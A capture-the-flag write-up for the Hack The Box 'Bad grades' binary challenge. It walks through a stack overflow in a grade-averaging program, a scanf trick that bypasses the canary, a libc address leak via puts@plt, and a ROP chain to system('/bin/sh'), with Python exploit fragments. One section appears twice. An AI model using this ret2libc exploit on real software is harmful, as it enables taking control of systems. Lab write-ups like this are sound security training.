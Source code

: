 
# HTB Challenge: Bad grades

*"You are not interested in studying for school anymore, you only play CTFs and ?challenges! Your grades fell off a cliff! I will take your laptop away if you continue like this". You need to do something to raise them before your parents ground you forever.."*


![PWNED](https://raw.githubusercontent.com/Lixhr/HackTheBox/refs/heads/main/PWN/easy/bad_grades/attachments/has_been_pwned.png)

"Bad grades" is an easy-level binary exploitation box. Given an ELF and his linked libc.so, i had to find a way to control the program's execution flow. 

I consider it as an introduction to ret2libc and ROP chains.


## Information Gathering

First of all, i had to find necessary informations about the executable and its lib.

The ELF is a x64, with NX and Canay enabled. Consider that the PIE is disabled. 

With the PIE disabled, the function's addresses doesn't change from an execution to another. 
We will have to deal with Canary, take it in note for later. 

  ![ELF_CHECKSEC](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/elf_checksec.png?raw=true)


Consider that PIE is enabled on the libc. So we need to leak its base address in order to execute system()

  ![LIBC](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/libc_checksec.png?raw=true)
  
The program is quite simple. The student can view his grades, or create a new average.

When creating an average, the user inputs a *number of grades*, then fills the notes one by one.

  ![PROGRAM_OVERVIEW](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/program_screen.png?raw=true)


## Reversing the binary

Let's ask Ghidra to decompile the binary and see what's under the hood.

There are three main functions.
- menu(), that redirects the user in the two functions below. 
- view_grades(), that displays arbitrary grades. Nothing intresting found here.
- new_grades() , asking the user for his grades.
The main problem is in new_grades(). Let's clean it up and analyze it.

    void    new_grades(void)
    {
        long in_FS_OFFSET;
        int nbr_of_grades;
        double total;
        double dbl_array [33];
        long local_10;
        
        local_10 = *(long *)(in_FS_OFFSET + 0x28);
        total = 0.0;
        color_choice("Number of grades: ",&DAT_004012d8,&DAT_00401304);
        scanf("%d",&nbr_of_grades);
        for (int i = 0; i < nbr_of_grades; i++) 
        {
            printf("Grade [%d]: ",i + 1);
            scanf("%lf", dbl_array[i]);
            total += dbl_array[i];
        }
        printf("Your new average is: %.2f\n",total / (double)nbr_of_grades);
        if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) 
            __stack_chk_fail();
        return;
    }
All the grades are stored in dbl_array[33], but no validations are made on the user input.

It obviously leads to a stack buffer overflow. Let's try to override the buffer with 34 entries



  ![CANARY](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/canary.png?raw=true)

Here is our stack canary, just after our array. And now?
## Bypassing canary

I first tried to bruteforce the canary's value, but it took long time. It was frustrating to wait before every try of my exploit.

I finally found a way to make scanf a "ghost" read, by justt passing a ".".

There is no integer, nor decimal. Nothing is written and our canary is still here.

- https://ir0nstone.gitbook.io/notes/misc/scanf-bypasses
## Finding the rip offset

We can write arbitrary data on the stack. We now want to override rip value with our beautiful "AAAAAAAA"

But, we first need to convert our address to its float representation:

    def pointer_to_double(pointer_value):
        byte_string = p64(pointer_value)
        hex_str = binascii.hexlify(byte_string)
        byte_data = binascii.unhexlify(hex_str)
        x = struct.unpack('d', byte_data)
        return (str(x[0]).encode())

I fuzz the program and saw that the program crashes at EIP=0x41414141414141, with a offset of 34.

Let's do a ret2main to to confirm that we can control the program's flow.

![ret2main](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/ret2main.png?raw=true)


Done.

Note that we have an "unlimited" input. We could craft a crazy ROPchain, but keep it simple. Let's call system("/bin/sh")



## Leaking the libc address


![ret2plt](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/functions.png?raw=true)

Sadly, we don't have system() linked in our executable. Whe have to ret2plt, in order to leak the libc address.

By calling puts@plt and passing the GOT entry of puts as a parameter. This causes puts to print out its own address in libc.

Base address changes at every execution. But the padding between each functions is always the same. If we can leak the puts@got address, we can guess the system@got.

    def leak_addr(func):
        leak_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            elf.got['puts'],  # puts@got
            elf.plt['puts'],
            0x00401108 # return to main
        ]
        prepare_rop(len(leak_ropchain) + array_offset + canary_offset)
        send_ropchain(leak_ropchain)
        p.recvuntil(b"Your new average is:")
        p.recvline()
        leak = p.recvline() 
        leak = format_addr(leak)
        libc.address = leak - libc.sym['puts']
        success(f"Libc base address : {hex(libc.address)}")

Let's call puts@plt, and leak the puts@got. We need a little cleaning on the address to convert it in its decimal representation. Don't forget to return to main.

![address](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/address.png?raw=true)

The hard work is done. The program asks us to re-overflow it.
## Finding the rip offset

We can write arbitrary data on the stack. We now want to override rip value with our beautiful "AAAAAAAA"

But, we first need to convert our address to its float representation:

    def pointer_to_double(pointer_value):
        byte_string = p64(pointer_value)
        hex_str = binascii.hexlify(byte_string)
        byte_data = binascii.unhexlify(hex_str)
        x = struct.unpack('d', byte_data)
        return (str(x[0]).encode())

I fuzz the program and saw that the program crashes at EIP=0x41414141414141, with a offset of 34.

Let's do a ret2main to to confirm that we can control the program's flow.

![ret2main](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/ret2main.png?raw=true)


Done.

Note that we have an "unlimited" input. We could craft a crazy ROPchain, but keep it simple. Let's call system("/bin/sh")



## system()

Let's keep the same pattern:

    def exploit():
        exploit_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            next(libc.search(b'/bin/sh')),
            libc.sym['system'],
        ]
        prepare_rop(array_offset + canary_offset + len(exploit_ropchain) + 1)
        p.sendline(b"0.0") 
        info("Sending payload...")
        info(f"System : {hex(exploit_ropchain[2])}")
        info(f"/bin/sh: {hex(exploit_ropchain[1])}")
        send_ropchain(exploit_ropchain)
        p.interactive()

Find a "/bin/sh" address on the libc. It is a common gadget.

After pushing it into RDI (1st arg), just execute system(). A shell returns, and asks you to cat flag.

![system](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/final.png?raw=true)